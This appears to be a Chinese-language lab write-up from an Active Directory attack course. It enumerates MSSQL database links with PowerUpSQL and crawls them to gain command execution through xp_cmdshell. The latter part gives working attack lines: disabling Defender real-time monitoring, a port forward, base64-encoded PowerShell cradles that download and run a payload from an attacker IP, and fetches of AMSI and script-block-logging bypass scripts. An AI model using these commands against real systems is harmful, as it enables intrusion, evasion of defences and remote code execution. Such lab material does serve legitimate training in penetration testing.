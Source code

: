 Task
•  Get a reverse shell on a db-sqlsrv in db.local forest by abusing database links from us-mssql.

这里还是要用powershell枚举，载入到CS有问题

1. 枚举当前账号是否有任何可用的mssql链接

```
PS C:\Windows\system32> cd C:\ad\Tools\
PS C:\ad\Tools> Import-Module .\PowerupSQL-master\PowerupSQL.psd1
WARNING: The names of some imported commands from the module 'PowerupSQL' include unapproved verbs that might make them
 less discoverable. To find the commands with unapproved verbs, run the Import-Module command again with the Verbose
parameter. For a list of approved verbs, type Get-Verb.
PS C:\ad\Tools> Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
Instance               : US-MSSQL
DomainName             : US
ServiceProcessID       : 2216
ServiceName            : MSSQLSERVER
ServiceAccount         : US\dbservice
AuthenticationMode     : Windows and SQL Server Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 14.0.1000.169
SQLServerMajorVersion  : 2017
SQLServerEdition       : Developer Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : US\studentuser138
IsSysadmin             : No
ActiveSessions         : 1
```

对us-mssql这个实例有进入权限，但我们不是sysadmin（IsSysadmin:No）

2. 查看上面us-mssql这个链接的信息

```
PS C:\ad\Tools> Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
VERBOSE: us-mssql.us.techcorp.local : Connection Success.


ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 0
DatabaseLinkName       : US-MSSQL
DatabaseLinkLocation   : Local
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : True
is_data_access_enabled : False
modify_date            : 7/7/2019 9:48:29 AM

ComputerName           : us-mssql.us.techcorp.local
Instance               : us-mssql.us.techcorp.local
DatabaseLinkId         : 1
DatabaseLinkName       : 192.168.23.25
DatabaseLinkLocation   : Remote
Product                : SQL Server
Provider               : SQLNCLI
Catalog                :
LocalLogin             :
RemoteLoginName        :
is_rpc_out_enabled     : False
is_data_access_enabled : True
modify_date            : 7/9/2019 6:54:54 AM

```

留意第二条枚举信息
```
DatabaseLinkName       : 192.168.23.25
DatabaseLinkLocation   : Remote
Product                : SQL Server
```

这里表示在us-mssql还有一个远程的mssql链接

3. 使用HeidiSQL客户端

以当前用户身份登录


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1667866844266.png)


使用 PowerUpSQL 中的 Get-SQLServerLinkCrawl 来自动爬取数据库链接

```
PS C:\ad\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Verbose

Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser138
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :

```

从上面枚举结果可知，对DB-SQLSRV有sa权限

如果启用了 xp_cmdshell（或者 rpcout 值为true，允许我们启用 xp_cmdshell），则可以使用以下命令在数据库链接中的任何节点上执行命令。

尝试对各个mssql节点执行```whoami```命令

```
PS C:\ad\Tools> Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''


Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser138
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery : {nt service\mssqlserver, }
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```

上面结果表明我们对 DB-SQLPROD这个实例可以执行系统命令


Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "Set-MpPreference -DisableRealtimeMonitoring $true"'''



rportfwd 8080 192.168.99.138 80


Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -w hidden -enc "SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwADAALgAxADMAOAA6ADgAMAA4ADAALwBhACIAKQApAA=="'''




PS C:\Users\max> $str = 'IEX ((new-object net.webclient).downloadstring("http://192.168.100.138:8080/a"))'
PS C:\Users\max> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwADAALgAxADMAOAA6ADgAMAA4ADAALwBhACIAKQApAA==



SELECT * FROM OPENQUERY( "DB-SQLPROD" , 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AOQA5AC4AMQAzADgAOgA4ADAALwBhACIAKQApAA==''' )



Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);IEX ((new-object net.webclient).downloadstring(\"http://192.168.100.138:8080/a\"))"'''